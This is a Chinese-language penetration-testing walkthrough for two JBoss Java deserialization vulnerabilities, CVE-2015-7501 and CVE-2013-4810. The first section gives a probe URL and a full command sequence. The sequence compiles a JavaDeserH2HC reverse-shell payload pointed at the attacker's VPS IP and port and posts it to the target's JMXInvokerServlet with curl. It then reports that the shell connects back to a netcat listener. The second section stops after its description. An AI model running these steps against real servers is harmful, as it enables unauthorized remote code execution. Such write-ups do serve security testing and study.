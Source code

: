 ![image.png](jboss_getshell.assets/1592147117_5ee63cad54eb8.png!small)

### JBoss JMXInvokerServlet 反序列化漏洞 (CVE-2015-7501)

#### 漏洞描述

由于`JBoss`中`invoker/JMXInvokerServlet`路径对外开放，JBoss的`jmx`组件⽀持Java反序列化

#### 影响版本

实际上主要集中在 jboss 6.x 版本上:

```
 Apache Group Commons Collections 4.0 
 Apache Group Commons Collections 3.2.1 
 Apache Group Commons Collections
```

#### 漏洞利用

验证是否存在此漏洞,直接访问 

```
poc url: http://target/invoker/JMXInvokerServlet 
```

如果像下面一样直接提示下载,则说明目标可能存在此漏洞
![image.png](jboss_getshell.assets/1592147132_5ee63cbc1a637.png!small)

下面使用JavaDeserH2HC 生成反弹 shell 的 payload

```
# cd JavaDeserH2HC/
# javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
# java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 公网vps的ip:端口号
# curl http://target/invoker/JMXInvokerServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![image.png](jboss_getshell.assets/1592147142_5ee63cc69cac0.png!small)打开nc界⾯，发现shell已经弹回成功了。

### JBoss EJBInvokerServlet 反序列化漏洞（CVE-2013-4810）

#### 漏洞描述

此漏洞和`CVE-2015-7501`漏洞原理相同，两者的区别就在于两个漏洞选择的进行其中`JMXInvokerServlet`和`EJBInvokerServlet`利用的是`org.jboss.invocation.MarshalledValue`进行的反序列化操作，而`web-console/Invoker`利用的是`org.jboss.console.remote.RemoteMBeanInvocation`进行反序列化并上传构造的文件。

#### 影响版本

实际上主要集中在 `jboss 6.x` 版本上:

```
 Apache Group Commons Collections 4.0 
 Apache Group Commons Collections 3.2.1 
 Apache Group Commons Collections
```
